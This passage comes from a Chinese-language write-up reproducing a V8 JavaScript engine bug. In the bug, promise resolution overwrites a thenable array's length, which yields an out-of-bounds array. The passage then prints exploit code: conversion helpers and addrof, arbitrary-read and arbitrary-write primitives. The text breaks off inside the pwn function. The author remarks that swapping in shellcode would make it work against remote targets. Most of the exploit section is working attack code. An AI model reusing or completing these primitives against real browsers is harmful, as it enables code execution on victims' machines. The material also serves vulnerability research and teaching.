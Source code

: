 再走一步可以发现`promise.reactions_or_result = reaction`语句执行完毕，`thenable`的`length`已经被修改为了`reaction`

[![](https://p5.ssl.qhimg.com/t011e6dff346d09fd49.png)](https://p5.ssl.qhimg.com/t011e6dff346d09fd49.png)

[![](https://p4.ssl.qhimg.com/t01cabb69c4ef0c6657.png)](https://p4.ssl.qhimg.com/t01cabb69c4ef0c6657.png)

这样我们便获得了一个`OOB`的数组，那么我们接下来只需要按照普通的思路进行利用即可



## EXP

由于是本地V8复现的所以就只在本地弹了个计算器，感兴趣话可以换个`shellcode`啥的就可以打远程了

```
var buf = new ArrayBuffer(16);
var float64 = new Float64Array(buf);
var bigUint64 = new BigUint64Array(buf);
var Uint32 = new Int32Array(buf);

function f2i(f)`{`
    float64[0] = f;
    return bigUint64[0];
`}`

function i2f(i)`{`
    bigUint64[0] = i;
    return float64[0];
`}`

function hex(i)`{`
    return '0x' + i.toString(16).padStart(16, '0');
`}`

var thenable = [1.1,2.2,3.3,4.4]
new Object();
thenable.then = Promise.prototype.then

var p = Promise.resolve(thenable);


function pwn() `{`
    var a = new Array(0x12345678,0,1); 
    var d = [1.1,2.2]

    let idx = thenable.indexOf(i2f(0x000000002468acf0n)); 
    let element_idx = idx + 6; 
    function addrof(obj)`{`
        a[0] = obj;         
        return f2i(thenable[idx]);
    `}`

    function arb_read(addr)`{`
        thenable[element_idx] = i2f((4n &lt;&lt; 32n) + addr - 8n);
        return f2i(d[0]);
    `}`

    function arb_write(addr,data)`{`
        thenable[element_idx] = i2f((4n &lt;&lt; 32n) + addr - 8n);
        d[0] = i2f(data);
    `}`
```